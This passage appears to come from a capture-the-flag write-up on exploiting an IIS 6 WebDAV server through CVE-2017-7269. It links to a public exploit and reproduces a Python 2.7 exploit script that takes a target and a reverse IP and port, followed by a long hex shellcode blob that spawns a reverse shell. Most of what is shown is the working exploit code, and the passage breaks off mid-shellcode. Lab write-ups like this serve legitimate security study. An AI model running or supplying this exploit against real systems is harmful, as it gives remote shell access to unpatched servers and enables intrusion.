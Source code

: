
I had a lot of trouble getting this script to run since it was on an old version of python. Same issue I ran into on the Granny box. So I added the ```#!/usr/bin/env python2.7``` exploit can be found here https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Note: A system restart was required to make this run properly.

```python
#!/usr/bin/env python2.7
import sys
import struct
import socket  

if len(sys.argv)<5:
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    exit(1)
targetip = sys.argv[1]
targetport = int(sys.argv[2])
reverseip = sys.argv[3]
reverseport = int(sys.argv[4])

shellcode='\x55\x8B\xEC\x81\xEC\xDC\x05\x00\x00\x53\x56\x57\x8B\x45\x08\x8B'+\
'\x40\x78\x89\x85\xE4\xFA\xFF\xFF\x8B\x45\x08\x8B\x40\x70\x89\x45'+\
'\xFC\xC7\x85\xC8\xFC\xFF\xFF\x77\x73\x32\x5F\xC7\x85\xCC\xFC\xFF'+\
'\xFF\x33\x32\x2E\x64\xC7\x85\xD0\xFC\xFF\xFF\x6C\x6C\x00\x00\xC7'+\
'\x85\xD8\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\xDC\xFA\xFF\xFF\x74'+\
'\x61\x72\x74\xC7\x85\xE0\xFA\xFF\xFF\x75\x70\x00\x00\xC7\x85\x58'+\
'\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\x5C\xFA\xFF\xFF\x6F\x63\x6B'+\
'\x65\xC7\x85\x60\xFA\xFF\xFF\x74\x41\x00\x00\xC7\x85\xE8\xFC\xFF'+\
'\xFF\x57\x53\x41\x43\xC7\x85\xEC\xFC\xFF\xFF\x6F\x6E\x6E\x65\xC7'+\
'\x85\xF0\xFC\xFF\xFF\x63\x74\x00\x00\xC7\x85\xA8\xFA\xFF\xFF\x69'+\
'\x6E\x65\x74\xC7\x85\xAC\xFA\xFF\xFF\x5F\x61\x64\x64\xC7\x85\xB0'+\
'\xFA\xFF\xFF\x72\x00\x00\x00\xC7\x85\x14\xFD\xFF\xFF\x68\x74\x6F'+\
'\x6E\xC7\x85\x18\xFD\xFF\xFF\x73\x00\x00\x00\xC7\x85\xF4\xFC\xFF'+\
'\xFF\x43\x3A\x5C\x57\xC7\x85\xF8\xFC\xFF\xFF\x69\x6E\x64\x6F\xC7'+\
'\x85\xFC\xFC\xFF\xFF\x77\x73\x5C\x73\xC7\x85\x00\xFD\xFF\xFF\x79'+\
'\x73\x74\x65\xC7\x85\x04\xFD\xFF\xFF\x6D\x33\x32\x5C\xC7\x85\x08'+\
'\xFD\xFF\xFF\x63\x6D\x64\x2E\xC7\x85\x0C\xFD\xFF\xFF\x65\x78\x65'+\
'\x00\xC7\x85\x18\xFB\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\x1C\xFB\xFF'+\
'\xFF\x69\x6E\x64\x6F\xC7\x85\x20\xFB\xFF\xFF\x77\x73\x5C\x73\xC7'+\
'\x85\x24\xFB\xFF\xFF\x79\x73\x74\x65\xC7\x85\x28\xFB\xFF\xFF\x6D'+\
'\x33\x32\x5C\xC7\x85\x2C\xFB\xFF\xFF\x63\x61\x6C\x63\xC7\x85\x30'+\
'\xFB\xFF\xFF\x2E\x65\x78\x65\x83\xA5\x34\xFB\xFF\xFF\x00\xC7\x85'+\
'\xE8\xFA\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\xEC\xFA\xFF\xFF\x49\x4E'+\
'\x44\x4F\xC7\x85\xF0\xFA\xFF\xFF\x57\x53\x5C\x49\xC7\x85\xF4\xFA'+\
'\xFF\xFF\x49\x53\x20\x54\xC7\x85\xF8\xFA\xFF\xFF\x65\x6D\x70\x6F'+\
'\xC7\x85\xFC\xFA\xFF\xFF\x72\x61\x72\x79\xC7\x85\x00\xFB\xFF\xFF'+\
'\x20\x43\x6F\x6D\xC7\x85\x04\xFB\xFF\xFF\x70\x72\x65\x73\xC7\x85'+\
'\x08\xFB\xFF\xFF\x73\x65\x64\x20\xC7\x85\x0C\xFB\xFF\xFF\x46\x69'+\
'\x6C\x65\xC7\x85\x10\xFB\xFF\xFF\x73\x5C\x63\x2E\xC7\x85\x14\xFB'+\
'\xFF\xFF\x65\x78\x65\x00\xC7\x85\xD0\xFA\xFF\xFF'+struct.pack('i',reverseport)+\
'\xE9\x3E\x04\x00\x00\x5F\x89\xBD\xB4\xFA\xFF\xFF\xE8\x4C\x04\x00'+\
'\x00\x89\x85\x24\xFA\xFF\xFF\x68\x53\xC0\x49\x9C\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x5D\x04\x00\x00\x59\x59\x89\x85\x28\xFA\xFF\xFF\x68'+\
'\x5A\xC1\xCB\xC2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x45\x04\x00\x00\x59'+\
'\x59\x89\x85\x2C\xFA\xFF\xFF\x68\x1C\xC9\x05\xBA\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x2D\x04\x00\x00\x59\x59\x89\x85\x30\xFA\xFF\xFF\x68'+\
'\x54\x34\x4F\xA2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x15\x04\x00\x00\x59'+\
'\x59\x89\x85\x34\xFA\xFF\xFF\x68\x12\x75\x1D\x45\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xFD\x03\x00\x00\x59\x59\x89\x85\x38\xFA\xFF\xFF\x68'+\
'\xE9\x65\x73\x1B\xFF\xB5\x24\xFA\xFF\xFF\xE8\xE5\x03\x00\x00\x59'+\
'\x59\x89\x85\x3C\xFA\xFF\xFF\x68\x3A\xFD\xFB\x1E\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xCD\x03\x00\x00\x59\x59\x89\x85\x40\xFA\xFF\xFF\x68'+\
'\xBD\x50\xD7\x2D\xFF\xB5\x24\xFA\xFF\xFF\xE8\xB5\x03\x00\x00\x59'+\
'\x59\x89\x85\x44\xFA\xFF\xFF\x68\xEF\x60\x08\xE7\xFF\xB5\x24\xFA'+\
```
